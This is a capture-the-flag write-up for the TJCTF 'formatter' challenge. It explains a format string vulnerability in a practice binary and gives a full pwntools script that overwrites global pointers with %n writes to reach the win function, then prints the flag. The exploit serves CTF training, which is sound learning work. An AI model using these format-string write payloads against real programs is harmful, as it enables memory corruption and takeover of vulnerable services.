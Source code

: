 ```yaml
---
description: overwriting global variable
---
```


# formatter

## Problem

<details>

<summary>Description</summary>

give me a string, any string!

`nc tjc.tf 31764`

</details>

## Solution

<figure><img src="../../../.gitbook/assets/image_2023-05-28_225145241.png" alt=""><figcaption><p>checksec</p></figcaption></figure>

The name of the challenge indicates that we're going to do an format string vulnerability to exploit this program and we can see this in the `main` function where after it receives our buffer, it will print without any format specifier allowing us to overwrite values in memory or read values from the stack.

<figure><img src="../../../.gitbook/assets/image_2023-05-28_223431082.png" alt=""><figcaption><p>decompiled main</p></figcaption></figure>

`Main` also make some memory allocation with `calloc` of 1 unit in size of 4 bytes which the address of this dynamic memory is being hold by the global variable `xd`.  It will also run `r1` with our buffer as parameter, but this parameter won't be relevant.

<figure><img src="../../../.gitbook/assets/image_2023-05-28_223503622.png" alt=""><figcaption><p>decompiled r1</p></figcaption></figure>

The relevant line of this code is line 5, which will take `xd` as a pointer (which hold the address allocated by `calloc`) and increments the value by two. So It doesn't the value of `xd` holds (address allocated by `calloc`), but it will add 2 to the memory allocated by calloc which is pointed by `xd`&#x20;

<figure><img src="../../../.gitbook/assets/image_2023-05-28_223540854.png" alt="" width="461"><figcaption><p>decompiled win</p></figcaption></figure>

Here, in order for the function to trigger and output the flag, we have to satisfy the condition which is the value of an memory pointed by the address `xd` holds must be `0x86a793e`. So we have to write `0x86a793e - 0x02` into the memory `xd` pointing to. Problem is that the memory `calloc` returns is always changing. Recall from the `main` function we also have another global variable named `among`. We can instead change the memory pointing from the memory of `calloc` allocated to the address of `among` and since PIE isn't enabled, the address is hardcoded. We can then set the value of `among` to our desire to satisfy the condition

<figure><img src="../../../.gitbook/assets/image_2023-05-29_155854130.png" alt="" width="563"><figcaption><p>returned value after overwriting in plain mode</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image_2023-05-29_155922411.png" alt="" width="563"><figcaption><p>returned value after overwriting in hexdump</p></figcaption></figure>

{% code title="exploit.py" lineNumbers="true" fullWidth="false" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = 'tjc.tf'
port = 31764

def start(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE: 
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x40139c
break *0x004013ad
break *0x004012a4
break *0x04011d4
'''.format(**locals())

# =========================================================
#                         FUZZING
# =========================================================
io = start()
# found offset at %6$p
io.sendlineafter(b'give me a string (or else): ', b'AAAAAAAA.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx')
io.close()

# =========================================================
#                         ADDRESSES
# =========================================================
xd = elf.sym['xd'] # 0x403440
among = elf.sym['among'] # 0x403460
value = 0x86a693c
padding = b'\x01' * 3

# =========================================================
#                         EXPLOITS
# =========================================================
io = start()

# reference : https://www.youtube.com/watch?v=9SWYvhY5dYw
# reference : https://www.youtube.com/watch?v=KgDeMJNK5BU

# 1st overwrite (write the desired value to among)
# 2nd overwrite (a pointer that xd holds, overwrite it into among)

# 1st write 2nd overwrite -> (0x60) ->  96 - 0 = 96 to xd (hhn)
# 1st write 1st overwrite -> (0x086a) -> 2154 - 96 = 2058 to among + 2 (n)
# 2nd write 2nd overwrite -> (0x4034) -> 16372 - 96 = 14218 to xd + 1 (n)
# 2nd write 1st overwrite -> (0x693c) -> 26940 - 2154 = 10568 to among (hn)

# this doesn't work
payload_manual = b'%96X%14$hhn' + b'%2058X%15$n' + b'%14218X%16n' + b'%10568X%17hn' + padding + p64(xd) + p64(among + 2) + p64(xd + 1) + p64(among)

payload_auto = fmtstr_payload(6, {among : value, xd : among})

io.sendlineafter(b'give me a string (or else): ', payload_auto)
print(io.recvall())
```
{% endcode %}

I tried to craft the payload on my own, however it doesn't seem to work instead we can use the format string payload provided by pwntools and work just fine.&#x20;

## Flag

> _**tjctf{f0rm4tt3d\_5883cc30}**_
